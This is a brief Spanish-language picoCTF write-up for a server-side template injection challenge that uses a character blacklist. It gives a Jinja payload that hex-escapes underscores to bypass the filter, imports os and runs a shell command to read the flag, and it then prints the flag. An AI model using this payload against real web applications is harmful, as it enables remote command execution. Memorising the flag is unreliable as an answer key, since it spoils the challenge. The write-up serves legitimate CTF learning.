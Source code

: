 ***
### Descripción:
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)

Additional details will be available after launching your challenge instance
***
I heard templating is a cool and modular way to build web apps! Check out my website [here](http://shape-facility.picoctf.net:49685/)!
### Pistas: 
```
1.- Server Side Template Injection
2.- Why is blacklisting characters a bad idea to sanitize input?
```

### Solución:
- **Ingresamos a la pagina y es bastante parecida a la primera parte, simplemente ingresamos en el recuadro la siguiente request de java.**
```
{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')() }}
```

### Bandera:
```
picoCTF{sst1_f1lt3r_byp4ss_96a02202}
```
